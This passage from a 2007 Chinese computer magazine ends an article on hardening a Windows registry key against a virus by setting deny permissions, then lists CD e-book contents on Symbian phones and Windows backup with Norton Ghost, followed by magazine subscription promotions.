上边的修复过程难免有点麻烦，在实际的修复过程，有时还要复杂的多，因为病毒为会对相关注册表“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL”子键下的字符串值CheckedValue进行保护，根本无法删除，所以要想完全修复，是比较棘手的。如果我们提前做好预防，就不会那么被动了，其实预防的方法很简单，具体方法如下：

- 1. 单击“开始”→“运行”命令，输入regedit打开注册表，定位到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden”子键下，然后单击鼠标右键，在出现的右菜单中选择“权限”，打开“Hidden的权限”对话框。
- 2. 在“Hidden的权限”窗口中单击“高级”按钮，打开“Hidden的高级安全设置”对话框，在这个窗口选中“Administrators”账户，接着单击“编辑”按钮，打开“Hidden的权限项目”，将“拒绝”下面除了“完全控制”、“查询数值”、“枚举子项”、“读取控制”以外的所有选项全部选中，最后单击“确定”按钮。
- 3. 按照第二步的方法，将system账户进行同样的设置。



### 光盘图书介绍

由于本附录容量的限制，2篇超大型的专题图书：《塞班手机12讲》、《系统重装、备份、还原，从入门到精通》无法放置在附录中，因此特做成了PDF电子图书形式，放置在光盘中供读者阅读。下面是2篇专题图书的目录介绍：

#### Symbian(塞班)智能手机应用技巧十二讲

文/龚胜

##### 第一讲 塞班智能手机概述

- 一、塞班系统的发展历史和分类
- 二、塞班智能系统主要特点
- 三、其他智能手机操作系统特点

##### 第二讲 塞班手机的一般使用技巧

- 一、塞班系统文件系统结构浅析
- 二、未安装任何软件前的使用
  - (1)认识按键使用
  - (2)菜单外观的调整
  - (3)上网及发送彩信设置
  - (4)铃声和背景图片设置
  - (5)周期闹钟设置技巧
- 三、塞班系统软件安装指南
- 四、塞班系统软件安装注意事项

##### 第三讲 ROM的升级(刷机)实例

- 一、升级系统或改变语言版本
- 二、增强系统功能(打补丁)实例
- 三、西门子SX1运行LINUX系统

##### 第四讲 塞班手机商务功能应用点滴

- 一、OFFICE软件
- 二、电子书阅读工具
  - (1)ReadM
  - (2)RepliGo
  - (3)掌上书院
- 三、增强时钟功能
- 四、中文输入法
- 五、英汉词典
- 六、QR条码应用简介

##### 第五讲 电话和短信功能增强

- 一、电话功能增强
  - (1)更多的来电信息
  - (2)环境“撒谎”软件
  - (3)智能答录
  - (4)手机“防盗”
  - (5)飞行模式
  - (6)来电防火墙
  - (7)动开关机和情景模式
  - (8)PPT对讲功能
- 二、短信功能增强
  - (1)短信免费发
  - (2)增强短信管理
  - (3)未看短信自动提醒
- 三、工程模式应用简介
  - (1)工程模式开启方法
  - (2)工程模式使用技巧

##### 第六讲 系统维护及常见故障处理

- 一、常见故障处理
  - (1)清理启动文件
  - (2)清理软件及系统数据
  - (3)格式化手机
- 二、塞班系统的数据备份
  - (1)重要文件备份
  - (2)手机全盘备份
- 三、手机病毒防治
  - (1)病毒表现及预防染毒
  - (2)常见病毒介绍及处理
- 四、硬件故障处理和保养

##### 第七讲 塞班智能手机优化技巧

- 一、尽量释放内存空间
- 二、塞班手机省电技巧
  - (1)待机时千万不要使用动态动画
  - (2)不要在后台运行“活跃”程序
  - (3)使用多媒体功能适可而止
  - (4)注意程序安装位置
  - (5)其他省电技巧

##### 第八讲 塞班手机网络应用详解

- 一、网页浏览
- 二、邮件收发
  - (1)用系统自带工具收发
  - (2)用UCMAIL或UCWEB收发
  - (3)实现PUSHMAIL
- 三、其他网络应用
  - (1)掌中气象
  - (2)在线资讯
  - (3)即时交流

##### 第九讲 多媒体功能应用技巧

- 一、摄影摄像功能增强
  - (1)摄像功能增强
  - (2)照相功能增强
  - (3)收音功能增强
- 二、影音播放增强
  - (1)视频播放增强
  - (2)音频播放增强
  - (3)FLASH播放

##### 第十讲 让塞班手机与电脑联姻

- 一、共享PC上网
- 二、用塞班手机发送传真
- 三、同步OUTLOOK信息
- 四、电脑写短信手机发
- 五、让S60手机做PC摄像头

##### 第十一讲 塞班手机游戏功能指南

- 一、一般SIS游戏
- 二、NG游戏
- 三、MGS游戏平台
- 四、JAVA游戏
- 五、GB及NES模拟器
- 六、网络及蓝牙联机游戏

##### 第十二讲 塞班手机地图及GPS应用

- 一、塞班手机GPS应用硬件准备
- 二、塞班手机GPS应用软件选择与使用
  - (1)GPS定位软件
  - (2)MapViewGPS II
  - (3)ROUTE66
- 三、手机基站定位软件
  - (1)用基站信息实现自动功能
  - (2)手机定位地图
- 四、地图查看及其他应用
  - (1)地图查看软件
  - (2)太阳指南针
  - (3)交通查询

#### Windows系统重装、备份、还原从入门到精通

文/胡鹏 kktode Mr.Doughty

- 一、系统资料的备份和还原工作
  - 1. 用“文件和设置转移向导”备份/还原个人设置
  - 2. 备份系统盘上的文件
  - 3. 备份/还原电子邮件
  - 4. 备份/还原IE收藏夹
  - 5. 备份/还原QQ/Windows Live Messenger聊天记录
  - 6. 用“驱动精灵2004预览版”备份/还原硬件驱动
  - 7. 为新系统做准备
    - (1)工具类
    - (2)多媒体软件类
    - (3)即时通讯软件(聊天软件)
    - (4)防护类

- 二、重装Windows XP
  - 1. 设置BIOS
  - 2. 重装Windows XP

- 三、用Norton Ghost备份操作系统
  - 1. 安装Norton GHOST 2003
  - 2. 将操作系统设置到“最佳状态”
  - 3. 备份操作系统
  - 4. 维护好映像文件

- 四、用Norton Ghost还原操作系统
  - 1. 还原操作的注意事项
  - 2. 还原操作
  - 3. Ghost Explorer的应用

- 五、Norton Ghost的使用技巧
  - 1. 硬盘克隆
  - 2. 在DOS下使用Norton Ghost
  - 3. 使用Norton Ghost时的注意事项
  - 4. 如何给Norton Ghost提速
    - (1)整理好硬盘
    - (2)设置好硬盘参数
    - (3)选用新版本的Norton Ghost
    - (4)在DOS下使用Norton Ghost时，先加载Smartdrv.exe

- 六、DIY组装机的一键恢复——一键还原精灵

- 七、打造一键恢复光盘

### 订2008年《微电脑世界》杂志有奖

#### 活动说明

参加本次活动的读者均可获赠礼品，礼品为三选一，读者可以在网络摄像头、读书卡和多功能悬挂储物袋中任选一种；

一次订阅两年《微电脑世界》杂志，可获赠时尚音箱一个。









#### 订阅幸运大抽奖

2008年1月10日举行抽奖活动，将抽出大奖获得者三名，奖品为打印机各一部，敬请关注《微电脑世界》2008年第一期杂志。

#### 活动起止时间：

2007年8月1日到2007年12月31日（以邮戳或发票开具时间为准）。

#### 参加活动方式：

- 1. 本次活动针对2007年8月1日到2007年12月31日期间订阅2008年全年《微电脑世界》杂志的读者。
- 2. 参加活动必须将订阅收据原件和发票邮寄至我刊发行部，经我刊与邮局确认后，邮寄礼品给您。
- 3. 请务必注明您的姓名、邮寄地址、邮编、礼品名称和联系电话。

#### 订阅单据和发票邮寄地址

地址：北京市万寿路翠微中里16号3号楼3层《微电脑世界》发行部收 邮编：100036

#### 注

1. 本次抽奖活动只限订阅2008年全年《微电脑世界》杂志的读者。由于本次活动涉及奖品发放，参与活动的订户将不能中途退订。且参加以上活动的读者将不得参加2008年《微电脑世界》征订的其他优惠促销活动。
2. 享受折扣的读者，不再获赠礼品和参加抽大奖活动。
3. 本次活动最终解释权在《微电脑世界》杂志社。



### IT.com.cn
IT世界网



### 越测越快乐

### 十佳经销商评选

IT世界网2007年度IT产品横评系列活动

时间：11月17日-12月17日


- 上海
- 成都
- 武汉
- 长沙
- 佛山
- 广州
- 东莞
- 海口

请为您服务的优秀经销商投票吧！

活动详情请点击www.it.com.cn

支持机构：660 欧臣科技集团


### 邮购2008全年《电脑爱好者》（普及版）

#### 人人送

定价：6.8元

年价：81.6元

- 1年免费使用瑞星杀毒软件，价值120元
- 轻松英语学习卡，价值50元

#### 再送360个大奖 凡订阅即得

- A 卓越网购物卡一张（此卡无任何限制，可购买任何产品）（价值100元），共100张
- B 摄像头一只（价值80元），共30只
- C 512MB 金士顿SD卡一块（价值65元），共50块
- D 光电鼠标一只（价值50元），共30只
- E 《电脑爱好者》15周年珍藏DVD光盘一套（价值38元），共100套
  （此套光盘收藏电脑普及以来到现在全部历史：1亿文字的电脑知识、5万个经验技巧、1万个故障解答、1万篇专题文章、5000个各类软件、100本电脑图书，学用电脑的知识海洋；《电脑爱好者》自创刊到现在，历史上所有的期刊、图书、光盘读物内容总集；珍藏性无法估量，业内难以超越的宏篇巨制）
- F 当当网购物卡一张（价值30元），共50张

#### 活动说明

- 活动时间：2007年9月1日~2007年12月31日（邮局汇款以邮戳为准，网上订阅以下单时间为准）
- “再送”部分礼品按照到款时间和A~F的顺序依次送出，每人仅限一件。
- 在汇款单附言栏注明2008普及版杂志，同时留下电子邮件地址、联系电话。杀毒软件、购物卡的用户名、密码将通过电子邮件发送。
- 自汇款之日起计算，7个工作日后拨打010-68259307/68259457查询汇款，请核对汇款人地址、姓名、邮编是否准确，如有错误，请及时拨打010-68258784进行更改。
- 本活动仅限于在杂志社邮购的读者，邮局订阅等其他渠道不属此列。